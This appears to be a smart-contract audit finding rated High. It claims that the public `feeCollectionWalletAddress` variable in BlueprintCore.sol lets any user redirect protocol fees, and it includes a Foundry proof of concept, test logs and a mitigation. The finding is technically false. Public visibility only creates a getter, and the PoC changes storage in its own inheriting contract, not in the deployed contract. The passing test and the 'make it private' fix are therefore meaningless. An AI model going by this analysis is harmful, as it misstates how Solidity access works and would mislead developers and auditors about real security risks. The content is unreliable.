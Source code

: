 Tall Green Corgi

High

# Anyone can change `feeCollectionWalletAddress` and receive the fee

### Summary

in `BlueprintCore.sol : 91` the `feeCollectionWalletAddress` variable is set to public , that can causes any any malicious user can change the `feeCollectionWalletAddress` which can lead to loss of funds for the intended `feeCollectionWalletAddress`

### Root Cause

due to the public visibility of `feeCollectionWalletAddress` in contract `BlueprintCore.sol : 91` 
[link](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/BlueprintCore.sol#L91)

### Internal Pre-conditions

none

### External Pre-conditions

none

### Attack Path

1. the malicious user creates a smart contract that inherit the `BlueprintCore.sol`
2. then the malicious user changes the `feeCollectionWalletAddress` to another address

### Impact

Changing the `feeCollectionWalletAddress` will lead to loss of fund for the protocol as the protocol will not be able to receive any fee from the user in form of erc20 

### PoC

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.26;
import {BlueprintCore} from "./BlueprintCore.sol";
import {console} from "forge-std/console.sol";
contract canChangeAddress is BlueprintCore {

    function changeFeeCollectionWalletAddress() public returns(address){
        address oldaddress = feeCollectionWalletAddress;
        address _feeCollectionWalletAddress = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;
        feeCollectionWalletAddress = _feeCollectionWalletAddress;
        return oldaddress;
       
    }
    function getFeeCollectionWalletAddress() public view returns(address){
        return feeCollectionWalletAddress;   
  
    }

}
```
```// SPDX-License-Identifier: MIT

pragma solidity ^0.8.26;
import {Test, console} from "forge-std/Test.sol";
import {canChangeAddress} from "../src/canChangeAddress.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";

contract changingAddress is Test{
    BlueprintCore bulePrint;
    canChangeAddress canChangcontract;
    address attacker = makeAddr("attacker");
    function setUp() public{
        bulePrint = new BlueprintCore();
        canChangcontract = new canChangeAddress();
    }
    
    function testchangeFeeCollectionWalletAddress() public{
        vm.startPrank(attacker);
        address oldAddr = canChangcontract.changeFeeCollectionWalletAddress();
        console.log("old address");
        console.logAddress(oldAddr);
        console.log("new address");
        console.logAddress(canChangcontract.getFeeCollectionWalletAddress());
        vm.stopPrank();
    }
}
```
```console
Ran 1 test for test/changingAddress.t.sol:changingAddress
[PASS] testchangeFeeCollectionWalletAddress() (gas: 40357)
Logs:
old address
0x0000000000000000000000000000000000000000 
new address
0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
```

### Mitigation

change the visibility of `feeCollectionWalletAddress` from public to private